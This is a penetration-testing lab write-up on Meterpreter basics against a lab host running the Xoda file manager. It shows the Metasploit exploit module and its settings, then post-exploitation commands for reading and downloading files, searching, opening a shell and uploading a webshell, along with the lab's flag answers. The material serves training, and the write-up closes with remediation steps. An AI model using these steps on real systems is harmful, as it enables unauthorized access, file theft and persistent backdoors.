# Meterpreter Basics

**Classification:** Host & Network Penetration Testing / The Metasploit Framework<br>
**Target:** demo.ine.local (192.239.82.3) — Ubuntu, Apache 2.4.7 (Xoda), MySQL 5.5<br>

**Flags**
- flag1 (`/app/flag1`): `5c50a439f040922188a22f88cecc5277`
- flag2 (`/app/Secret Files/.flag2`): `bbbb3ed27502614e27bff65faea008a0`

## 1. Executive Summary

The target runs the **Xoda** file manager (arbitrary file upload). After getting a
Meterpreter session we exercise the core Meterpreter command set — remote/local navigation,
reading and editing files, downloading archives, searching by directory/extension, printing
checksums, inspecting `PATH`, listing processes and uploading a webshell — while collecting
the lab's flags.

## 2. Recon & Exploitation

```bash
ping -c 4 demo.ine.local
db_nmap -sV 192.239.82.3
services
```











```bash
use exploit/linux/http/xoda_file_upload
set RHOSTS 192.239.82.3
set TARGETURI /
exploit
```



## 3. Core Commands

System info and current user.

```bash
sysinfo
getuid
```





Backgrounding, running a command against a session from outside, and renaming sessions.

```bash
background
sessions -c "sysinfo" -i 1
sessions -n Victim1 -i 1
```







Back in the session, the shell-like commands (`pwd`, `ls`, `lpwd`, `lls`, `cd`).



## 4. Flags 1 & 2 — Read & Navigate

```bash
cd /app
cat flag1                 # 5c50a439f040922188a22f88cecc5277
cd "Secret Files"         # quotes for spaces
ls
cat .flag2                # bbbb3ed27502614e27bff65faea008a0
```



## 5. Download, Unzip & Checksum

`download` pulls files to the attacker.

```bash
download flag5.zip
```





Unzipping `flag5.zip` with the given password, then removing it from the target.

```bash
unzip -P 56784 flag5.zip
rm flag5.zip
```







Printing the checksum of the file named in the extracted clue.

```bash
checksum md5 /bin/bash
```



## 6. Search & PATH

Searching by directory and by extension; the `PATH` holds a file with "ckdo" in its name.

```bash
getenv PATH
search -d /usr/local/bin -f *ckdo*
```





## 7. Shell, Processes & Upload

```bash
shell            # drop to a system shell (Ctrl+C to return)
```



```bash
ps               # list processes
upload shell.php /app/
```



## 8. Notes & Remediation

1. **Patch/replace Xoda** — arbitrary file upload leads directly to RCE.
2. **Make upload directories non-executable** and validate file types server-side.
3. **Apply least privilege** and monitor for webshell uploads and anomalous `download`/
   `upload` activity.
